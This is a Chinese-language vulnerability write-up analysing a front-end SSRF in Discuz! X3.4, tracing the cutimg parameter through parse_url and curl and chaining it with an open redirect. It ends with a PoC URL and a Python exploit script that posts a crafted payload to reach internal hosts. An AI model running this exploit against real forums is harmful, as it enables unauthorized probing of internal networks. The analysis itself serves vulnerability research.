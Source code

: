 Discuz! X3.4 前台ssrf
=====================

一、漏洞简介
------------

DDiscuz! X3.4
source/module/misc/misc\_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

**本地ssrf**

/source/module/misc/misc\_imgcropper.php 55行

        require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {      showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));    }
    $prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb

source/class/class\_image.php 51行

        function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix); }

拼接后的参数作为`$source`又传进了init函数

source/class/class\_image.php 118行

        function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;        if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');            if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的,
`$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org\`即可继续执行。

![](resource/Discuz!X3.4前台ssrf/media/rId25.png)

source/function/function\_core.php 199行

    function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}

进入dfsockopen函数后，我们构造的字符串变为\$url，然后传入了\_dfsockopen函数。

dz/source/function/function\_filesock.php 31行

image

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse\_url解析了一次\$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![](resource/Discuz!X3.4前台ssrf/media/rId26.png)

其\$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![](resource/Discuz!X3.4前台ssrf/media/rId27.png)

在php的curl中我们尝试访问://dz/forum.php

![](resource/Discuz!X3.4前台ssrf/media/rId28.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![](resource/Discuz!X3.4前台ssrf/media/rId29.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class\_member.php 310行

![](resource/Discuz!X3.4前台ssrf/media/rId31.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function\_core.php 1498行

![](resource/Discuz!X3.4前台ssrf/media/rId32.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，\$\_SERVER\['HTTP\_HOST'\]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![](resource/Discuz!X3.4前台ssrf/media/rId33.png)

站内ssrf-\>前台get型的任意url跳转-\>ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse\_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

    htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1

### python 脚本

    # coding=utf-8
    import requests
    import re
    from urllib.parse import urlparse, quote
    from urllib import parse
    if __name__ == "__main__":
        url = "http://192.168.66.129/dz/"
        ssrf_target = "192.168.0.36:6666"
        path = urlparse(url).path
        payload = quote(
            "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
                ssrf_target=ssrf_target))
        s = requests.Session()
        html = s.get(url).text
        searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
        formhash = searchObj.group(1)
        rs = s.post(
            url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
                formhash=formhash, path=path, payload=payload))
        exit()

![](resource/Discuz!X3.4前台ssrf/media/rId36.png)

参考链接
--------

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4前台有限制SSRF漏洞/index.html)
